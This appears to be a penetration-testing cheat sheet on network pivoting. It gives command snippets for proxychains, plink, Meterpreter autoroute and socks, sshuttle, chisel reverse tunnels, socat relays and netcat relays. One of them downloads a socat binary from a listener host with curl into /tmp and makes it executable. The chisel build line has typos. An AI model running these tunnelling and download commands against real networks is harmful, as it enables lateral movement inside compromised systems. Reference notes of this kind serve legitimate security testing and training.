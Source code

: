 # Pivoting

## Tools


* ssh (-D -L -R)
* meterpreter
* plink.exe
* [chisel](https://github.com/jpillora/chisel)
* [reGeorg](https://github.com/sensepost/reGeorg) (web socks proxy)

### Proxychains

We can choose one of the tools to create a socks proxy and configure Proxychains to route into it the traffic of any pentesting tool that has no buit-in options to specify a socks proxy :

```bash
sudo vim /etc/proxychains.conf => changer le port du proxysocks proxychains
proxychains wpscan --url <url> 
wpscan --url <url> --proxy socks5://127.0.0.1:9517 --force
```
> We can also forward a single port to avoid being forced to use a socks proxy.

### Plink

```sh
plink.exe -l root -pw password -R 445:127.0.0.1:445 <listener_ip>
```

### Meterpreter

```sh
#Socks Proxy
run autoroute -s <target_network>/24
use auxiliary/server/socks4a
exploit -j

# Port forward
portfwd add -l 3389 -p 3389 -r <target>
```

---

### SSHUTTLE
```sh
sshuttle -r kali@<target_ip>:22 <target_network>/24
```


### Chisel
```sh
git clone git clone https://github.com/jpilloria/chisel && cd chisel && go build && go build -ldflags="-s -w" && upx build chisel && chmod +x chisel
./chisel client <listener_ip>:10000 R:4506:127.0.0.1:4506
chisel server -p 10000 --reverse
```


### SOCAT
```sh
curl -sL http://<listener_ip>:1234/socat -o /tmp/socat && chmod +x /tmp/socat && cd /tmp

# remote forward : redirect all trafic coming from TCP 4506 to remote host
socat TCP-LISTEN:4506,reuseaddr,reuseport,fork,bind=<listener_ip> TCP:<remote_ip>:4506

# localhost forward : redirect all trafic coming from TCP 80 to TCP 5000
socat TCP-LISTEN:80,fork TCP:127.0.0.1:5000

```
### Netcat

```sh
nc -v -lk -p 8001 -e /usr/bin/nc 127.0.0.1 8000
nc.traditional -l -p 8001 -c "nc 127.0.0.1 8000"
```

---

## Nmap like

[PortqryUI](https://www.microsoft.com/en-us/download/details.aspx?id=24009) : Nmap like for windows
